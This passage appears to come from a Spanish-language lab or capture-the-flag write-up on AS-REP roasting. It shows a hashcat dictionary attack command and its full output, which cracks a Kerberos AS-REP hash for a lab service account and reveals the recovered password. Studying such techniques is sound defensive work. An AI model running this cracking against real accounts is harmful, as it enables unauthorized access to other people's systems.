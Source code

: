 
## Parte 4: Cracking del hash

### Teoría

El hash AS-REP puede ser crackeado con ataques de diccionario si las políticas de contraseñas son débiles.

### Herramienta

```bash
hashcat -m 18200 -a 0 hash.txt passwordlist.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-12th Gen Intel(R) Core(TM) i5-12400F, 2212/4488 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache built:
* Filename..: password.txt
* Passwords.: 70188
* Bytes.....: 569236
* Keyspace..: 70188
* Runtime...: 0 secs

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:7cf7087ba77075e5b7a520985acb9585$8f69dd9c916fbd25ce6dd68c5ea34d70efe309f048e566db143aa3446818500158fcfb430dbab28c2960050f95ed7a542751d3c62d229378627994bf1c0a711442ff094d8eedf18472bd46df9af6d3e2789adb5bad4b30743b84b465c2958410fe5e28a34206f13d04b0f541eb6f03960040865efeee4f04411276d7f5042b9285beaa7f1cb686fad613fa354ca54190169b4fdc9cd7c3fc6fd16910e12f9ed6a024eea5444961fe213a1313b56e3c654b591cd3c4c30238df59f9de5c2bfd8c8fd090d00613e6bd39c213b49a31f31fc11e4a2000773104e06cda3ce07a4bb375446830e27569b23b5910875442111f66e8:management2005
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:7cf7087ba77...1f66e8
Time.Started.....: Tue Apr 29 20:23:39 2025 (0 secs)
Time.Estimated...: Tue Apr 29 20:23:39 2025 (0 secs)
```